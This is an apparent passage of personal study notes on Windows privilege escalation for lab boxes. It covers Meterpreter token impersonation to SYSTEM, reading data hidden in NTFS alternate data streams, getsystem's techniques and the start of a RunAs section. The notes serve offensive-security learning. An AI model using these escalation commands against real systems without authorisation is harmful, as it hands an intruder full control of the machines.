 meterpreter shell:
```bash
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
# root access
```

### Alternate Data Streams
https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/


> There is regular data stream and alternate data stream
Alternate is a way to hide information within a file

```bash
dir /R
hm.txt:root.txt:$DATA
more < hm.txt:root.txt:$DATA
```


# Escalation Path: getsystem

What happens when I type getsystem? - https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

In meterpreter:
```bash
getsystem
getsystem -h
```

What getsystem does?

> there is 2 types of **named pipe impersonation**. One is in memory and other is in disk ( probably u should not run this, because AV detects )
and there is **Token Duplication**, that requires **SeDebugPrivileges** to be enable.





# Escalation Path: RunAs 



## Overview
Allow us to run a command as somebody else

### FootHold - Access htb
Enter the FTP, grab the files
```bash
mdb-sql <db.mdb> 
```
